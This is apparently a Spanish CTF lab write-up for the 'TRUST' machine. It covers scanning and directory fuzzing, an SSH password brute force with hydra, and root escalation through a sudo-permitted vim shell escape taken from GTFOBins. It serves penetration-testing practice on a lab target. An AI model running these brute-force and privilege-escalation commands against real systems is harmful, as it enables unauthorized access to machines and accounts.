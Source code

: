 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina TRUST

Fecha: 08 de Marzo de 2025

Objetivo: 172.18.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta.

```
ping 172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Respuesta al comando ping</p></figcaption></figure>

Lanzamos el comando NMAP, con los parámetros -sV y -O.

```
nmap -sV 172.18.0.2 -O
```

Acabamos de averiguar que la máquina objetivo dispone de los puertos 80 y 22 abiertos, y funcionando actualmente.&#x20;

* 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)&#x20;
* 80/tcp open http Apache httpd 2.4.57 ((Debian))

Vamos a visitar la web, para ver que nos arroja el puerto 80.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Captura de pantalla de la salida de Apache al instalar un nuevo servidor</p></figcaption></figure>

Vemos que nos retorna la página de configuración del servidor Apache Web Service. Vamos a probar con los ficheros robots.txt y sitemap.xml para ver si contienen información.

No existen los ficheros robots.txt, ni el sitemap.xml.

Vamos a ver que nos reporta _**Wappalyzzer**_ y podemos ver que nos dice que se trata de un servidor Linux, con un _**"Apache HTTP Service"**_ y una distribución **Debian**.

Probamos con el comando _**whatweb**_ con el parámetro -v y nos reporta lo siguiente.

```
whatweb 172.18.0.2 -v
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Ssalida del whatweb -v</p></figcaption></figure>

Hice un _**dirb**_ para hallar directorios ocultos y me encontré con el siguiente output del comando.

```
dirb http://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida del comando dirb</p></figcaption></figure>

He encontrado una zona llamada _**server-status**_, pero al intentar navegar y acceder a esa parte me aparece lo siguiente.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al intentar navegar me dice que tengo el acceso prohíbido.

Vamos a hacer un poco de Fuzzing. El Fuzzing consiste en una metodología en la que enviaremos datos aleatorios o modificados a una aplicación web con el objetivo de provocar errores o descubrir vulnerabilidades.

Primero buscaremos los directorios afectados.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -t 30 -o results.txt

```

El comando nos reporta esta salida

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida del comando gobuster haciendo fuzzing</p></figcaption></figure>

Ahora que ya hemos extraido los directorios, buscaremos en los ficheros.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 30 -o results_files.txt

```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida de los ficheros encontrados en la máquina objetivo</p></figcaption></figure>

Podemos ver que hay 3 ficheros en verde que nos devuelven un código 200.

Hemos visitado la web objetivo 172.18.0.2/secret.php y hemos encontrado esto.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Fase de Explotación

Lo único que se me ocurre es hacer fuerza bruta al puerto 22 (ssh) pero no se si existe otra solución.

Para ello solo conozco en estos momentos, [hydra](https://www.kali.org/tools/hydra/). Lanzaremos pues el comando para averiguar el password mediante hydra.

```
hydra -l mario -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption><p>Resultados del ataque al objetivo con Hydra</p></figcaption></figure>

***

## Fase de Post-Explotación

Una vez obtenidas las credenciales del usuario. Podemos acceder a la máquina objetivo mediante SSH.

```
ssh mario@172.18.0.2
```

Introducimos la password encontrada anteriormente <mark style="color:blue;">**chocolate**</mark>, y estamos dentro.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora deberíamos buscar los ficheros vulnarables que tenga comprometidos la máquina a nivel de sistema que el SUID sea del usuario root. Para ello lanzaremos el siguiente comando

```
find / -perm -4000 -user root 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que la salida del comando nos retorna todos estos ficheros.

Probamos a ver si nos permite ejecutar algo como root.

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>Output del sudo -l</p></figcaption></figure>

Vemos que podemos ejecutar sobre vim. Sino sabemos como explotarlo, siempre podemos consultar [GTFOBins ](https://gtfobins.github.io/)

```
sudo vim -c ':!/bin/bash'
```

Y si hacemos un whoami podemos ver que ya somos root.

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
